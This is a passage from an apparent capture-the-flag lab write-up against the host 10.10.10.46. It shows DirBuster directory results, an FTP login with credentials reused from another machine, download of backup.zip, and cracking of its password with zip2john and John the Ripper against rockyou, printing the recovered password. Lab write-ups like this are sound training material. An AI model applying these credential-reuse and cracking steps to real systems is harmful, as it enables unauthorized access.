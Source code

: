 		http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project
		Report produced on Mon May 04 13:44:16 EDT 2020
		--------------------------------
		
		http://10.10.10.46:80
		--------------------------------
		Directories found during testing:
		
		Dirs found with a 200 response:
		
		/
		
		Dirs found with a 403 response:
		
		/icons/
		/icons/small/
		
		
		--------------------------------
		Files found during testing:
		
		Files found with a 200 responce:
		
		/index.php
		
		Files found with a 302 responce:
		
		/dashboard.php
		
		
		--------------------------------
		```

4. Enumerate FTP
	* Try `ftpuser:mc@F1l3ZilL4` from `opsie` machine:
		```
		ftp 10.10.10.46
		ftpuser
		mc@F1l3ZilL4
		dir
		get backup.zip
		```
		Result: A file named backup.zip is found in the folder. Extraction of the archive fails as it's password protected.
	* Password cracking: The password can be cracked using JohntheRipper and rockyou.txt.
		```
		sudo zip2john backup.zip > hash
		gunzip /usr/share/wordlists/rockyou.txt.gz
		sudo john hash --fork=4 -w=/usr/share/wordlists/rockyou.txt
		```
		
		Output:
		```
		kali@kali:~$ sudo john hash --fork=4 -w=/usr/share/wordlists/rockyou.txt
		Using default input encoding: UTF-8
		Loaded 1 password hash (PKZIP [32/64])
		Node numbers 1-4 of 4 (fork)
		Press 'q' or Ctrl-C to abort, almost any other key for status
		741852963        (backup.zip)
		1 1g 0:00:00:00 DONE (2020-05-04 13:38) 33.33g/s 8533p/s 8533c/s 8533C/s football1..simpleplan
		Waiting for 3 children to terminate
		2 0g 0:00:00:00 DONE (2020-05-04 13:38) 0g/s 5121Kp/s 5121Kc/s 5121KC/s  derrickak47.abygurl69
		3 0g 0:00:00:00 DONE (2020-05-04 13:38) 0g/s 5049Kp/s 5049Kc/s 5049KC/s  brian89.a6_123
		4 0g 0:00:00:00 DONE (2020-05-04 13:38) 0g/s 5272Kp/s 5272Kc/s 5272KC/s  mar ..*7¡Vamos!
		Use the "--show" option to display all of the cracked passwords reliably
		Session completed
		```
		